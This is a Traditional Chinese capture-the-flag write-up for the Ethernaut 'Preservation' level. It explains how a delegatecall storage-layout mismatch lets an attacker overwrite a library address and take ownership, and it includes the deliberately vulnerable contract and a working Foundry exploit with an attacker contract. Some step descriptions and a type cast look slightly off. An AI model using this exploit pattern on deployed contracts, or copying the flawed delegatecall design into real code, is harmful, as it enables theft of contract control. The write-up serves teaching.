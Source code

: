 # Level 16 - Preservation

## 題目
[Preservation](https://ethernaut.openzeppelin.com/level/0x7ae0655F0Ee1e7752D7C62493CEa1E69A810e2ed)

### 通關條件
此智慧合約利用一個函式庫來儲存兩個不同時區的兩個不同時間。 建構函數會為每個要儲存的時間創建兩個庫實例。 本關卡的目標是獲得該合約的所有權。
### 提示
- 查閱 Solidity 文檔中的有關低階函數 delegatecall 的信息，包括其工作原理、如何用於委託操作到鏈上庫以及它對執行範圍的影響。
- 理解 delegatecall 保持上下文意味著什麼。
- 理解儲存變數如何儲存和存取。
- 理解不同資料類型之間轉換的工作原理
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
## 解題
**delegatecall** 在 [Level 6 - Delegation](https://hackmd.io/@D13/ethernaut6) 用到過，技巧就是呼叫別人的 function 改自己的變數
存變數如何儲存和存取在 [Level 8 - Vault](https://hackmd.io/@D13/ethernaut8)
不同資料類型之間轉換在 [Level 13 - Gatekeeper One](https://hackmd.io/@D13/ethernaut13)


---

先看合約，`Preservation` 在第 21, 26 行皆使用 delegatecall 的方式呼叫另一個合約 `LibraryContract` 裡的 function，但是兩個合約宣告的變數並不相同，在  [Level 6 - Delegation](https://hackmd.io/@D13/ethernaut6) 中有提到過如果要使用 delegatecall 必須要有一樣的變數（包含宣告的順序），所以當我們使用關卡合約 `Preservation` 呼叫 `LibraryContract` 中的 `setTime(uint256 _time)` 時，以 `LibraryContract` 合約來看是修改 `storedTime`；但其實修改到的是 `Preservation` 的 `timeZone1Library` （皆為合約中第一個宣告的變數）。

剛好 `Preservation` 的第一個變數 `timeZone1Library` 是儲存呼叫對象的地址，代表上述提到的 bug 會導致呼叫完 20 行的 `setFirstTime(uint256 _timeStamp)` 後，`timeZone1Library` 被改變，下次再呼叫 `setFirstTime(uint256 _timeStamp)` 時其實是呼叫到不同地址的合約。

透過這個 bug，我們的攻擊流程：
1. 設計一支帶有 `setTime(uint _newOwnerAddress)` 的惡意合約，其功能為將 owner 修改成自己
2. 呼叫 `setTime()` ，參數為我們部署的惡意合約
3. 再次呼叫 `setTime()` ，就會呼叫惡意合約的 function 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/16_Preservation.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        PreservationAttacker preservationAttacker = new PreservationAttacker(your_challenge_address);
        preservationAttacker.attack();

        vm.stopBroadcast();
    }
}

contract PreservationAttacker {
    // 用於符合題目合約的slot
    address public _timeZone1Library;
    address public _timeZone2Library;
    address public owner;
    Preservation level16;

    constructor(address _target) {
        level16 = Preservation(_target);
    }

    function attack() external {
        level16.setFirstTime(uint256(address(this)));
        level16.setFirstTime(uint256(address(msg.sender)));
    }

    function setTime(uint _newOwnerAddress) external {
        owner = address(uint160(_newOwnerAddress));
    }
}
```